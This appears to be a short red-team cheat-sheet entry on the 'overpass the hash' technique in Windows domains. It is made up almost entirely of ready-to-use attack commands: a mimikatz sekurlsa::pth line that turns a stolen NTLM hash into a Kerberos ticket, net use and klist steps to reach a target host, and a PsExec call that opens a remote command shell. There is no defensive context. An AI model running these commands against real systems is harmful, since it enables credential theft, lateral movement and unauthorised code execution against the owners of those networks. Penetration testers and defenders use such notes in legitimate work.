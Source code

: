 # Overpass The Hash

**Overpass the hash** (turn the NTLM hash into a Kerberos ticket and avoid the use of NTLM authentication):

```
mimikatz # sekurlsa::pth /user:<USERNAME> /domain:<DOMAIN> /ntlm:<NTLM_HASH> /run:PowerShell.exe
```

```powershell
net use \\$MACHINE_HOSTNAME
klist
```

To gain a remote code execution:

```powershell
.\PsExec.exe \\$MACHINE_HOSTNAME cmd.exe
```
